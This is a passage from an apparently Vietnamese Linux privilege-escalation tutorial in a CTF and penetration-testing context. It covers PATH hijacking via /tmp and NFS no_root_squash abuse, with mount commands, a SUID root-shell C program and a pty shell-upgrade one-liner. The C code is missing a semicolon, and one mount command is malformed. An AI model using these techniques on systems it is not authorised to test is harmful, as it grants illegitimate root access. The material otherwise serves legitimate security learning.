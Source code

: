 Tại thời điểm này, tập lệnh đường dẫn cũng sẽ tìm kiếm tệp thực thi có tên ```hack``` trong thư mục /tmp.

Việc tạo lệnh này khá dễ dàng bằng cách sao chép /bin/bash thành ```hack``` trong thư mục /tmp.

## Privilege Escalation: NFS
Các vectơ leo thang đặc quyền không chỉ giới hạn ở quyền truy cập nội bộ. Các thư mục dùng chung và giao diện quản lý từ xa như SSH và Telnet cũng có thể giúp bạn giành được quyền truy cập root trên hệ thống mục tiêu. Một số trường hợp cũng yêu cầu sử dụng cả hai vectơ, ví dụ: tìm khóa riêng SSH root trên hệ thống mục tiêu và kết nối qua SSH với quyền root thay vì cố gắng tăng cấp đặc quyền của người dùng hiện tại.

Một vectơ khác liên quan nhiều hơn đến CTF và các kỳ thi là shell mạng được cấu hình sai. Đôi khi, vectơ này có thể được phát hiện trong các cuộc kiểm tra thâm nhập khi có hệ thống sao lưu mạng.

Cấu hình NFS (Chia sẻ Tệp Mạng) được lưu trong tệp ```/etc/exports```. Tệp này được tạo trong quá trình cài đặt máy chủ NFS và người dùng thường có thể đọc được.

Yếu tố quan trọng cho vector leo thang đặc quyền này là tùy chọn ```no_root_squash``` mà bạn có thể thấy ở trên. Theo mặc định, NFS sẽ thay đổi người dùng root thành nfsnobody và loại bỏ bất kỳ tệp nào khỏi quyền root. Nếu tùy chọn ```no_root_squash``` có trên một chia sẻ có thể ghi, chúng ta có thể tạo một tệp thực thi với bit SUID được thiết lập và chạy nó trên hệ thống mục tiêu.

Chúng ta sẽ bắt đầu bằng cách liệt kê các chia sẻ có thể gắn kết từ máy tấn công của mình.

```
showmount -e HOST
```
Chúng ta sẽ gắn một trong các chia sẻ ```no_root_squash``` vào máy tấn công của mình và bắt đầu xây dựng tệp thực thi.

```
mkdir /tmp/backupclient

mount -o rw HOST: backup /tmp/backupclient
```

Xây dựng tệp thực thi
```C++
#include<unistd.h>
int main()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0
}
```
Sau khi biên dịch và thiết lập bit SUID thì trên máy mục tiêu cũng có tệp này với quyền tương tự

```
gcc nfs.c -o nfs -w
chmod +s nfs
```



Một thủ thuật nhỏ hậu khai thác là có thể sử dụng câu lệnh

```python 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Nó được dùng để nâng cấp shell thô (raw shell) thành một shell tương tác (interactive shell) hơn trong môi trường CTF, reverse shell hoặc post-exploitation.

